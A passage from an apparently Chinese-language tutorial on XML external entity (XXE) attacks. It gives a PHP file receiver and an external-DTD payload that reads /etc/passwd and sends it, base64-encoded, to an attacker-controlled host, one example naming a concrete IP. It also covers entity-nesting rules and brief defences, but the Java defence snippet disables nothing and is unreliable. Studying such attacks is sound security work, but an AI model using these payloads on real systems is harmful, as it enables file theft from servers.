 当然我们还可以弄一个直接接收文件的php.  
get.php  
``` php
<?php
file_put_contents('xxe.txt', $_GET['xxe']);
?>
```
payload:
``` xml
<!ENTITY % remote SYSTEM "http://xxx.xxx.xx.xx/XXE/1.dtd">
%remote;
]>
```
dtd文件内容:
``` xml
<!ENTITY % payload    SYSTEM     "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://xxx.xxx.xx.xx/get.php?xxe=%payload;'>">
%int;
%trick;
```
这个did文件，引用了外部实体/etc/passwd作为payload的值，然后又将payload拼接到url上，进行http请求
接收到请求的get.php就将这个文件内容保存到xxe.txt中了，形成了一个文件读取的过程，最后保存到主机上  
这里还遇到一个问题，把get.php放在与外部dtd文件同一个目录下时，就没有办法创建这个文本，但是放在不同目录下时就能够成功创建  

# 防御XXE
主要思路就是禁用外部实体的引用
``` php
libxml_disable_entity_loader(true);
```
``` java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
```
``` python
from lxml import etree
xmlData = etree.parse(xmlSource, etree.XMLParser(resolve_entities = False))
```

# XXE的构造
参数实体以%开头，我们使用参数实体需要遵循两条原则：  
1.参数实体只能在DTD声明中使用  
2.参数实体中不能再引用参数实体  
也就是说，直接在内部实体定义中引用另一个实体的这种方法是行不通的，因为定义的参数实体不能直接在当前DTD处被其他的参数实体在定义时引用  
错误代码示例:  
``` xml
<!DOCTYPE root [
<!ENTITY % param1 "file:///etc/passwd">
<!ENTITY % param2 "http://xxx.xxx.xx.xx/?%param1"> %param2;
]>
```
同样,下面这样的代码也是不行的:
``` xml
<!DOCTYPE root [
<!ENTITY % param1 "file:///etc/passwd">
<!ENTITY % param2 "<!ENTITY % param222 SYSTEM'http://112.74.35.205/?%param 1;'>">
%param2;
]>
```
原因是不能再实体定义中引用参数实体，即有些解释器不允许在内层实体中使用外部实体连接，无论是一般实体还是参数实体  
那我们怎样才能实现嵌套呢?  
我们可以将嵌套的实体声明存放到一个外部文件中，这样做可以规避错误，而且这种方法可以应对过滤了file、&等字符的情况  
payload:  
``` xml
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///etc/passwd">
```